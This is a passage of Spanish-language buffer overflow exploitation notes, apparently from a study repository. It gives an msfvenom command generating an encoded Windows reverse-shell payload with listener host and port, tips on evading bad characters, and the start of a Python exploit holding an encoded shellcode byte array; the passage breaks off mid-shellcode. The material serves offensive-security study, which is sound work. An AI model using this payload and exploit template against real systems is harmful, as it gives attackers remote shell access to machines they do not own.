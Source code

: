 1. Comando.
2. Direcciones útiles para usar en EIP (buscar aquellas que en el valor de la dirección no contenga ningún badchar).
3. Permisos.
4. Protecciones.

## Generación de shellcode

Aquí se generará el shellcode a utilizar después de la sustitución del valor que se asigne a la `EIP`.

**Comando de ejemplo**

`msfvenom -a x86 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=<puerto> -b '\x00' EXITFUNC=thread -i 3 -f python > scode.txt`

Tener en consideración:
- Sistema operativo.
- Arquitectura.
- Payload.
- Formato (python, c, exe, etc).
- Variables de escucha y/o comando a ejecutar.
- Encoding (extra: `-i 3` para número de iteraciones para encodear).
- BadChars.
- Función de salida (para evitar que el proceso termine usar `seh` o `thread`).

***Si se da el caso que los badchars sean bastantes tal que la generación del shellcode no se realice satisfactoriamente, considerar quitar el encoder `x86/shikata_ga_nai` para que automáticamente se utilicé el encoder que cumpla con los requisitos (colección de badchars a evitar).***

## Generación de exploit

### Ejemplo de exploit final

```python
from struct import pack
import socket, sys

if len(sys.argv) < 2:
    print "\n [!] Uso: python " + sys.argv[0] + "<ip-address>" + "<remote-port> \n"
    sys.exit(0)

ip_address = sys.argv[1]
rport = int(sys.argv[2])
shellcode =  b""
shellcode += b"\xb8\x36\xda\x75\x0f\xda\xd5\xd9\x74\x24\xf4\x5b\x2b"
shellcode += b"\xc9\xb1\x5f\x83\xc3\x04\x31\x43\x10\x03\x43\x10\xd4"
shellcode += b"\x2f\xce\x68\xaf\x10\x8c\xac\x01\x49\x9b\x76\x69\x30"
shellcode += b"\x55\xbe\x20\x9d\xa4\x1a\x57\x9d\x2d\x66\x54\xfb\xa0"
shellcode += b"\x75\xc8\xf6\x32\x68\x08\x59\x9b\x32\x1d\xb8\x35\x8a"
shellcode += b"\x2e\x1c\xec\x8c\x49\xea\xa6\xae\xc5\xfb\xef\x11\xbd"
shellcode += b"\xa9\x1f\x9b\xf3\x51\xc8\x4a\x27\x35\xa2\xd1\x60\x03"
shellcode += b"\x55\x72\xf5\xcc\x0b\xd2\x2a\xda\x41\x4d\x5f\x4f\xb4"
shellcode += b"\x2f\xbb\xc6\x88\x45\x5f\x3e\x11\x08\x86\x09\x5d\xe7"
shellcode += b"\xf8\x11\x49\x5c\x12\xdc\x8e\x66\xa0\x1e\x1c\x10\x0a"
shellcode += b"\xf8\xa7\xac\x6b\x8d\xd4\x2a\xaa\xe6\x5e\x9d\xbe\x04"
shellcode += b"\x42\x52\xe0\x71\x86\xc5\xa6\xa2\xff\xdf\xcb\x75\x28"
shellcode += b"\x2f\x5b\x05\x57\x39\x45\xd2\x7e\x05\xd6\x91\xfd\x46"
shellcode += b"\x2c\x31\x66\xea\xbe\x3c\xc8\x10\x96\xf6\xcc\x31\xbc"
shellcode += b"\x56\x43\x24\x1f\x86\xed\xf2\x59\xa2\x38\x9c\x4f\xa1"
shellcode += b"\xc6\x58\x71\xb7\x81\x9d\xe3\x25\xb7\xc7\xf4\x5c\xa3"
shellcode += b"\x01\xd4\x5e\xf2\x1d\x92\x57\x08\x65\xd9\x62\xdf\xb4"
shellcode += b"\xdf\xaa\xb8\x6a\x61\x82\x87\xfa\x27\x0c\xe9\x49\x46"
shellcode += b"\xea\x50\x51\xb6\x6b\xc9\xbc\xe4\x95\xff\xf8\x36\x94"
shellcode += b"\x3b\xbd\x24\xd9\x9c\xb5\x1e\x77\xcb\x31\x84\x2a\xe3"
```